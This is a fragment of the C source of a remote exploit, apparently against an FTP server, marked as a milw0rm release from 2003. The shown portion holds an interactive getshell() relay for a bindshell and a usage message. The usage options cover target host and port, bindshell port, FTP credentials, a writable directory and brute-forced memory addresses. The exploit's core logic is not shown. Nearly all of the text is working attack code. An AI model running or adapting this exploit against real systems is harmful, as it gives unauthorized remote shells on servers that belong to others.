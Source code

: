       FD_ZERO(&fds);
      FD_SET(0,&fds);
      FD_SET(sock,&fds);
      if(select(sock+1,&fds,0,0,0)<1)
       printe("getshell(): select() failed.",1);
      if(FD_ISSET(0,&fds)){
       if((r=read(0,buf,4096))<1)
        printe("getshell(): read() failed.",1);
       if(write(sock,buf,r)!=r)
        printe("getshell(): write() failed.",1);
      }
      if(FD_ISSET(sock,&fds)){
       if((r=read(sock,buf,4096))<1)exit(0);
       write(1,buf,r);
      }
     }
     close(sock);
     return;
    }
    void printe(char *err,short e){
     printf("[!] error: %s\n",err);
     if(e)exit(1);
     return;
    }
    void usage(char *name){
     printf(" usage: %s [options] -h hostname\n\n options:\n"
     " -h <string>\tdefines the target host/ip.\t(REQUIRED)\n"
     " -P <number>\tdefines the target port.\t(%d)\n"
     " -s <number>\tdefines the bindshell port.\t(%d)\n"
     " -u <string>\tdefines the username.\t\t(\"%s\")\n"
     " -p <string>\tdefines the password.\t\t(\"%s\")\n"
     " -c <string>\tdefines the writable directory.\t(\"%s\")\n"
     " -b <string>\tdefines the base brute address.\t(0x%.8x)\n"
     " -a <number>\tdefines the alignment.\t\t(%d)\n"
     " -n <number>\tdefines the number of attempts.\t(%d)\n"
     " -r\t\tgo upward in memory, instead of downward.\n"
     " -d\t\tdo not show verbose ftp in/out traffic.\n\n",
     name,port,sport,DFLUSER,DFLPASS,DFLDIR,DFLADDR,align,attempts);
     exit(0);
    }

    // milw0rm.com [2003-08-28]
